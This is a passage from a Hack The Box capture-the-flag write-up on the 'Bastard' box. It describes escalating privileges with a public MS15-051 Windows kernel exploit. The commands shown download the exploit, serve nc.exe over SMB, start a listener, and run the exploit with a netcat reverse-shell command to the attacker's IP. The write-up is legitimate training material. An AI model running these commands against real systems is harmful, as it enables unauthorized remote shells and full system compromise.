 From the first vulnerabilities in the list that are possibly exploitable, I find some exploits but mostly to be used with **Metasploit**, I am lucky and there is one to exploit the **[MS15-051](https://github.com/rayhan0x01/reverse-shell-able-exploit-pocs/blob/master/ms15-051.md){:target="_blank"}** vulnerability with several executables for different architectures and versions of **Windows Operating Systems**. I just have to download the **[.zip file](https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS15-051/MS15-051-KB3045171.zip){:target="_blank"}** that has all the binaries on my machine, unzip it and look for the one that fits the target machine's system. The following steps to escalate privileges are not very complex to perform, I will configure a local server with impacket-smbserver to make the nc.exe binary available through the SMB protocol, open port 443 on my attacker machine waiting for a remote connection request and finally run the exploit passing as argument the malicious command that allows to send me a Reverse Shell, and I manage to engage the box and the account of the user with maximum privileges.

> **Attacker Machine**:

```bash
7z l MS15-051-KB3045171.zip
unzip MS15-051-KB3045171.zip
impacket-smbserver smbFolder $(pwd) -smb2support
sudo rlwrap -cAr nc -nlvp 443
```

> **Victime Machine**:

```cmd
\\10.10.14.238\smbFolder\ms15-051x64.exe "\\10.10.14.238\smbFolder\nc.exe -e cmd 10.10.14.238 443"

whoami
hostname
ipconfig
```

<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_44.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_45.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_46.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_47.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_48.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

> It is always nice to finish an **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** box, but the most rewarding experience is to learn new methods, tools that allow me to learn new concepts or to strengthen those that not long ago I could not understand and consequently apply. It is also very beneficial to work and learn in community because they give me a different point of view and find the most appropriate way to compromise a system. I am not going to stop learning so I kill the **Bastard** box and I am already thinking about the next one.

<br /><br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_49.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
